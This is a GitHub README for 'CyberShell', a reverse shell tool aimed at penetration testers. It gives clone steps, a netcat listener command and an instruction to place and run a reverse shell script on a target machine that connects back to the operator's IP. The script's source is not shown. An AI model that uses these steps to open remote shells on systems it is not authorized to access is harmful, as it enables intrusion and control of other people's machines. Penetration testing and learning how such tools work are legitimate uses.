 # 🚀 CyberShell: A Powerful Reverse Shell Tool

**CyberShell** is a cutting-edge reverse shell tool designed for cybersecurity professionals, penetration testers, and developers. It allows you to remotely execute commands on a target machine, making it an essential tool for both offensive and defensive security operations.

---

## 🌟 Features

- **Remote Command Execution**: Execute commands on a remote machine seamlessly.
- **Cross-Platform Support**: Works on Windows, Linux, and macOS.
- **Lightweight and Fast**: Minimal resource usage for efficient operations.
- **Customizable**: Easily modify the code to fit your specific needs.
- **Educational**: Perfect for learning about networking and cybersecurity.

---

## 🛠️ Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Midohajhouj/CyberShell.git
   cd CyberShell
   ```

2. put the script on target machine

    
## 🚦 Usage

1. Start the listener on your machine:
   ```bash
   nc -lvnp 9001
   ```

2. Execute the reverse shell script on the target machine:
   ```bash
   ./reverse.sh <your-ip> 9001
   ```

3. Enjoy remote command execution!

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details.

---

## 🤝 Contributing

Contributions are welcome! Please read the CONTRIBUTING.md file for guidelines.

---

## 🙏 Acknowledgments

- Inspired by various cybersecurity tools and techniques.
- Thanks to the open-source community for their contributions.

--- 

#### *<p align="center"> Developed by <a href="https://github.com/Midohajhouj">MIDØ</a> </p>*

